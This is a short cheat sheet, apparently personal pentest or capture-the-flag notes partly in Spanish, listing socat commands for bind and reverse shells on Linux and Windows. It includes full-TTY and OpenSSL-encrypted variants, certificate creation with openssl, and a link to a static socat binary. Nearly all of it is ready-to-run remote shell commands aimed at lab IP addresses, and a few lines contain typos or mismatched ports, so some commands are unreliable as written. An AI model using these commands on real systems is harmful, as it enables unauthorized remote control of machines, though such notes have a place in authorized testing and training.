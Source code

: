 
# Socat

## Bind shell
```
socat tcp-l:4444 exec:"bash -li"
socat tcp:10.10.53.160:4444 -
```

## Reverse shell
```
socat tcp-l:1234 -
socat tcp:10.13.6.113:1234 exec:"bash -li"
 ```

## Bind shell con esteroides
```
socat tcp-l:4444 exec:"bash -li",pty,stderr,sigint,setsid,sane 
socat tcp:10.10.53.160:4444 FILE:`tty`,raw,echo=0 
```

## Reverse shell con esteroides
```
socat tcp-l:1234 FILE:`tty`,raw,echo=0 
socat tcp:10.10.53.160:1234 EXEC:"bash -li",pty,stderr,sigint,setsid,sane
```


## Encriptado

- Crear llave y certificado
```
openssl req --newkey rsa:2048 -nodes -keyout shell.key -x509 -days 362 -out shell.crt
cat shell.key shell.crt > shell.pem
```


### Bind socat ssl
 
```
socat OPENSSL-LISTEN:2020,cert=shell.pem,verify=0 EXEC:/bin/bash,pipes  
socat OPENSSL:localhost:2020,verify=0 -
```

### Reverse

```
socat OPENSSL-LISTEN:2020,cert=shell.pem,verify=0 - 
socat OPENSSL-LISTEN:localhost:2020,verifiy=0 EXEC:/bin/bash
```


### listener ssl tty

```
socat openssl-listen:TCP-L:53,cert=encrypt.pem,verify=0 FILE:`tty`,raw,echo=0
socat openssl:TCP:10.10.10.5:53,verify=0 EXEC:"bash -li",pty,stderr,sigint,setsid,sane
```


### Windows bind shell

```
socat TCP-L:1234 EXEC:powershell.exe,pipes
socat tcp:10.10.228.97:4444 -
```

## Windows Reverse shell ??
```
socat tcp-l:1234 -
socat tcp:10.13.6.113:1234 exec:"powershell.exe"
 ```






Ref:
[precompiled socat binary](https://github.com/andrew-d/static-binaries/blob/master/binaries/linux/x86_64/socat?raw=true)